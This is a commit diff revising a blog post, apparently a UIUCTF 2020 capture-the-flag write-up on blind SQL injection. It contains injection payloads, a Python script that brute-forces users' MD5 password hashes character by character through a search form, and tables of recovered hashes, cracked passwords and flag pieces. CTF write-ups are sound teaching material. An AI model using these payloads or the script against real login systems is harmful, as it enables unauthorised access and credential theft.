

Before and after one commit to sshell/sshell.github.io, a Jekyll site: the page built from _posts/2020-07-20-uiuctf-2020-writeups.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1863 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-07-20-uiuctf-2020-writeups.markdown

```diff
--- a/_posts/2020-07-20-uiuctf-2020-writeups.markdown
+++ b/_posts/2020-07-20-uiuctf-2020-writeups.markdown
@@ -42,42 +42,45 @@ After playing around with injections for a little while, we find a nested SELECT
 Through trial and error, we find that there are three basic ways in which the server can respond to our queries: with data, with no data, or with an error. Each of these happens in a different situation and gives us more insight into the structure of the database.
 
 First, since we already know `USERNAME` exists, we use this as a baseline for a known-good query. We see that we get user data back when a specific column exists.
-` %" AND username in (SELECT username FROM sqlite_master where username like "%") -- - `
+`%" AND username in (SELECT username FROM sqlite_master where username like "%") --`
 
-Next we try an obviously non-existent column to establish a baseline response for the negative.  When this is the case, we get the message `ERROR: Something went wrong!`
-`%" AND username in (SELECT username FROM sqlite_master where FAKE like "%") -- -`
+Next, we try to query columns for users we know don't exist.  This simply returns no information at all, without giving us any errors.
+`%" AND username in (SELECT username FROM sqlite_master where username like "FAKE") --`
 
-Using this knowledge we can guess at what the password column must be called, and after a couple tried we find that "password_hash" doesn't throw us any errors.  Now that we know what we're up against, we can switch up our query and use our old wildcard friend to brute-force the key using a query like:
-`bob" AND username in (SELECT username FROM sqlite_master where password_hash like "4%") -- -`
+Lastly, we try a non-existent column to establish a baseline response for faulty queries.  When this is the case, we get the message `ERROR: Something went wrong!` We also get this error when we forget to comment out otherwise good, working queries by ending the query with the SQL single-line comment symbol `--`
+`%" AND username in (SELECT username FROM sqlite_master where FAKE like "%") --`
 
-This is Python script that will be responsible for doing all of the heavy lifting:
+Using this knowledge we can guess at what the password column must be called, and after a couple tries we find that "password_hash" doesn't throw us any errors.  Now that we know what we're up against, we can switch up our query and use our old wildcard friend to brute-force the hash 1 character at a time by using a query like:
+`%" AND username in (SELECT username FROM sqlite_master where password_hash like "%") --`
+
+Below is Python script that will be responsible for doing all of the heavy lifting. If what we know of the hash so far is correct for that user, the user's information is returned (e.g if Bob's hash starts with `41%`.) If any character of the hash so far is wrong (e.g if we ask if Bob's hash starts with `4F%`) the application won't return us any info at all. This allows us to check for the existence of the `bio` string for each user to make sure we're always on the right track.
 
 {% highlight python %}
 import requests
-chars = '1234567890abcdef'                    # list of hex characters
-names = ['alice','bob','carl','dania','noob'] # list of usernames
+chars = '1234567890abcdef'
+names = ['alice','bob','carl','dania','noob']
 
-def hashfinder(x, name):                      # we create a function for the repetitive task of brute-forcing
+def hashfinder(x, name):
     url = 'https://login.chal.uiuc.tf/search'
     query = {'request' : name+'" AND username in (SELECT username FROM sqlite_master where password_hash like "'+x+'%") -- -'}
-    req = requests.post(url, data=query)      # send request with our injection payload
-    if 'is '+name in req.text:                # we check for the correct bio (since username also appears in the textbox)
-        return(x)                             # and return the character if it's correct
+    req = requests.post(url, data=query)
+    if 'is '+name in req.text:
+        return(x)
 
-for name in names:                            # for every username
-    pwhash=''                                 # we clear the hash and start again
-    while len(pwhash) < 32:                   # then, while it's not a full md5 hash
-        for y in chars:                       # try to add a character
-            if hashfinder(pwhash+y, name):    # to what we already know
-                pwhash+=y                     # if it works, we start on the next one
-                if len(pwhash) == 32:         # and if we have a full hash
-                    print(name +':'+ pwhash)  # we print it with the username
+for name in names:
+    pwhash=''
+    while len(pwhash) < 32:
+        for y in chars:
+            if hashfinder(pwhash+y, name):
+                pwhash+=y
+                if len(pwhash) == 32:
+                    print(name +':'+ pwhash)
 {% endhighlight %}
 
-Which gives us the output of:
+When run, this bad boy gives us the output of:
 
 | name | hash |
-|------|------|
+|:----:|:----:|
 | alice | 530bd2d24bff2d77276c4117dc1fc719 |
 | bob | 4106716ae604fba94f1c05318f87e063 |
 | carl | 661ded81b6b99758643f19517a468331 |
@@ -97,44 +100,15 @@ The fifth and final hash is the most interesting one of the bunch.  The password
 
 On this [UTF-8 encoding table,](https://utf8-chartable.de/unicode-utf8-table.pl?start=1536) Arabic letters span 256 characters from `D880` to `DBBF`. We split up these two bytes and create a mask for each, meaning that each single Arabic letter is represented in the mask by a `?1?2` pair. Once we get the rule written, the hash is cracked rather quickly. With the final hash cracked, all we have to do is put together the five pieces of the flag and claim out 200 points!
 
+Here's what all the data looks like when we're all done:
 
 | name | hint | hash | password | flag |
 |------|------|------|----------|------|
 | noob | `(none)` | 8553127fedf5daacc26f3b677b58a856 | SoccerMom2007 | `Here's part 0 of the flag: uiuctf{Dump` |
-| alice | `My phone number (format: 000-000-0000)` | 530bd2d24bff2d77276c4117dc1fc719 | 704-186-9744 | `Here's part 1 of the flag: _4nd_un` |
-| bob | `My favorite 12 digit number (md5 hashed for extra security) [starts with a 10]` | 4106716ae604fba94f1c05318f87e063 | 5809be03c7cc31cdb12237d0bd718898 | `Here's part 2 of the flag: h45h_63` |
-| carl | `My favorite Greek God + My least favorite US state (no spaces)` | 661ded81b6b99758643f19517a468331 | DionysusDelaware | `Here's part 3 of the flag: 7_d4t_` |
-| dania | `الحيوان المفضل لدي (6 أحرف عربية فقط)` | 58970d579d25f7288599fcd709b3ded3 | طاووسة | `Here's part 4 of the flag: c45h` |
-
--name: Noob
--hint: (none)
--hash: 8553127fedf5daacc26f3b677b58a856
--pass: SoccerMom2007
--flag: You have successfully logged in! Here's part 0 of the flag: uiuctf{Dump
-
--name: Alice
--hint: My phone number (format: 000-000-0000)
--hash: 530bd2d24bff2d77276c4117dc1fc719
--pass: 704-186-9744
--flag: You have successfully logged in! Here's part 1 of the flag: _4nd_un
-
--name: Bob
--hint: My favorite 12 digit number (md5 hashed for extra security) [starts with a 10]
--hash: 4106716ae604fba94f1c05318f87e063
--pass: 5809be03c7cc31cdb12237d0bd718898 (md5 of 102420484096)
--flag: You have successfully logged in! Here's part 2 of the flag: h45h_63
-
--name: Carl
--hint: My favorite Greek God + My least favorite US state (no spaces)
--hash: 661ded81b6b99758643f19517a468331
--pass: DionysusDelaware
--flag: You have successfully logged in! Here's part 3 of the flag: 7_d4t_
-
--name: Dania
--hint: الحيوان المفضل لدي (6 أحرف عربية فقط)  (Translated : `My favorite animal (6 Arabic characters only)`)
--hash: 58970d579d25f7288599fcd709b3ded3
--pass: طاووسة
--flag: You have successfully logged in! Here's part 4 of the flag: c45h}
+| alice | `My phone number (format: 000-000-0000)` | 530bd2d24bff2d77276c4117dc1fc719 | 704-186-9744 | ` _4nd_un` |
+| bob | `My favorite 12 digit number (md5 hashed for extra security) [starts with a 10]` | 4106716ae604fba94f1c05318f87e063 | 5809be03c7cc31cdb12237d0bd718898 | `h45h_63` |
+| carl | `My favorite Greek God + My least favorite US state (no spaces)` | 661ded81b6b99758643f19517a468331 | DionysusDelaware | `7_d4t_` |
+| dania | `الحيوان المفضل لدي (6 أحرف عربية فقط)` | 58970d579d25f7288599fcd709b3ded3 | طاووسة | `c45h}` |
 
 
 ----------------
```
